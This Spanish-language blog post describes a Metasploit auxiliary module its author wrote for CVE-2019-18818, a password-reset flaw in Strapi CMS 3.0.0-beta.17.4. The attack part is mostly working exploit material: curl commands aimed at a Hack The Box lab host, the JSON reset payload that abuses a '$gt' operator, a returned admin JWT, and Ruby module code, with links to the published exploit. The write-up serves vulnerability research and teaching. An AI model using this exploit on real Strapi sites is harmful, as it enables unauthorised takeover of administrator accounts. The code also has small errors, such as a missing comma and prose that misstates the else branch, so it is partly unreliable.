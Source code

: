 ```yaml
---
title: "CVE-2019-18818 (Metasploit) + POC"
layout: single
excerpt: "Strapi CMS versión 3.0.0-beta.17.4 maneja mal el restablecimiento de contraseña y esto permite a un atacante hacerse con el control de una cuenta privilegiada, de manera que he desarrollado un módulo de exploit en Metasploit y enseño de manera práctica como explotar dicha vulnerabilidad."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/153461632-ddd95721-79b0-4446-90e8-9bb5ef77a0d9.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/153460626-f2c25ef3-7e30-4f91-b1da-fe14a064fba1.png">
</p>

Hace relativamente poco comencé en la creación de módulos auxiliares y exploits para *Metasploit Framework* y me gustaría compartir mi experiencia en mi primer módulo auxiliar del CVE-2019-18818.

Antes de comenzar a explicar de que se compone el módulo, un breve resumen sobre que es *CVE-2019-18818*. Esta vulnerabilidad fue publicada en la [*NATIONAL VULNERABILITY DATABASE*](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) (NVD) el 11 de julio de 2019, dicha falla maneja mal el restablecimiento de la contraseña en `packages/strapi-admin/controllers/Auth.js` y `packages/strapi-plugin-users-permissions/controllers/Auth.js` en Strapi 3.0.0-beta.17.4, por ende esto permite cambiar la contraseña de un usuario privilegiado y asimismo garantizar el acceso no autorizado al CMS, de ahi que fue catalogada como CRÍTICA por su gravedad y fácil explotación.

Por si no fuera poco, tiempo después, el 5 de diciembre de 2019 fue encontrado el CVE-2019-19609 en Strapi 3.0.0-beta.17.8, a diferencia del CVE-2019-18818, esta permitía la ejecución de código arbitrario por un usuario autenticado. 

A todo esto, usar la beta de Strapi CMS en versiones desactualizadas da oportunidad a un atacante a comprometerte. 

Ahora bien, como se explota?, pues bien, es muy fácil, enviaremos datos JSON al servidor a una ruta específica del CMS y ganaremos acceso como un usuario legítimo volcando un JSON Web Token.

Primeramente, es verificar si la versión que se está empleando en Strapi es vulnerable, es decir anteriores a la 3.0.0-beta.17.5, por ello podemos enviar datos JSON mediante una petición GET al servidor en '/admin/init' especificando a la cabecera `Content-Type` que estamos enviando datos en JSON, esto lo podemos hacer de la siguiente manera con `curl`.

```bash
┌──(root💀kali)-[/home/kali]
└─$ curl -X GET http://api-prod.horizontall.htb/admin/init -H 'Content-type: application/json' -s | jq                        
{                                                                                                                             
  "data": {                                                                                                                   
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",                                                                           
    "currentEnvironment": "development",                                                                                      
    "autoReload": false,                                                                                                      
    "strapiVersion": "3.0.0-beta.17.4"                                                                                        
  }                                                                                                                           
} 
```
En el módulo auxiliar de Metasploit, implemente esta funcionalidad en la función `check`.

```ruby
def check
    res = send_request_raw({ 'uri' => '/admin/init' })
    version = JSON.parse(res.body) 

    if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end    
end
```

Hago uso de `send_request_raw` para enviar una petición GET, seguidamente parseo la data en JSON de la respuesta del servidor con `JSON.parse` y la guardo en la variable `version`, defino una condición, `if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'`, extraigo strapiVersion de la variable versión que contiene la versión y hace una comparacion, si strapiVersion es igual a '3.0.0-beta.17.4', entonces el servidor es vulnerable, por lo cual devuelvo `return Exploit::CheckCode::Vulnerable`, de lo contrario retorno `return Exploit::CheckCode::Vulnerable`.

Hasta ahora esto ha sido para verificar que el servidor sea vulnerable, ahora vayamos con la explotación de la vulnerabilidad.

Enviaremos una petición POST a `/admin/auth/reset-password` y especificaremos los siguientes datos en JSON:

```json                                                                                           
{
  "code": {"$gt:0"}, # Bypass WAF
  "password": "Newpass123", # Nueva contraseña
  "passwordConfirmation": "Newpass123" # Confirmacion nueva contraseña
}
```
Lo podemos hacer con `curl` de esta manera:

```bash
┌──(root💀kali)-[/home/kali]
└─# curl -X POST -H 'Content-type: application/json' http://api-prod.horizontall.htb/admin/auth/reset-password -d '{"code": {"$gt":0},"password":"pas","passwordConfirmation":"pas"}' -s | jq
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NDQ0MjI0LCJleHAiOjE2NDcwMzYyMjR9.il6oFUjKXH7ke_uOVqM99quXU9qOyfKKY30ihgG21I4",                                                                                   
  "user": {
    "id": 3,
    "username": "admin",
    "email": "admin@horizontall.htb",
    "blocked": null
  }
}
```
> La respuesta nos muestra un JWT valido del usuario admin que puede ser usado mas tarde.

Este seria el codigo en el modulo de Metasploit.

```ruby
def run
    json_body = { 'code' => {'$gt' => 0},
      'password' => datastore['NEW_PASSWORD'],
      'passwordConfirmation' => datastore['NEW_PASSWORD'] }

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => '/admin/auth/reset-password',
      'ctype' => 'application/json',
      'data' => JSON.generate(json_body)
    })

    print_status("Changing password...")
    json_format = JSON.parse(res.body)
    jwt = json_format['jwt']

    if res.code == 200
      print_good("Password changed successfully!")
      print_good("USER: admin")
      print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
      print_good("JWT: #{jwt}")
    else
      fail_with(Failure::NoAccess"Could not change admin user password")
    end
  end
```

Comienzo definiendo mi data JSON en formato Ruby concatenando los datos del usuario, la guardo en la variable `json_body` y envió una petición POST usando `send_request_cgi`, genero mi data JSON válida con `JSON.generate(json_body)` en la peticion, guardo la petición en la variable `res` y parseo la data de esta con `JSON.parse(res.body)`, la almaceno en `json_format` y después guardo el parámetro JWT que contiene el JSON Web Token del usuario admin en la variable `jwt = json_format['jwt']` y hago una comparación, `if res.code == 200`, es decir si la respuesta del código de estado de lado del servidor es 200 OK, quiere decir que la contraseña se cambió con éxito y te muestra la contraseña, el usuario y el JWT nuevos del usuario admin, de lo contrario muestro *Could not change admin user password*.

Exploit download: [ExploitDB](https://www.exploit-db.com/exploits/50716) or [Packet Storm](https://packetstormsecurity.com/files/165896/Strapi-CMS-3.0.0-beta.17.4-Privilege-Escalation.html)

# POC
<p align="center">
<script id="asciicast-EXk92PvUUB0M1xZDXmTdyZV1v" src="https://asciinema.org/a/EXk92PvUUB0M1xZDXmTdyZV1v.js" async></script>
</p>

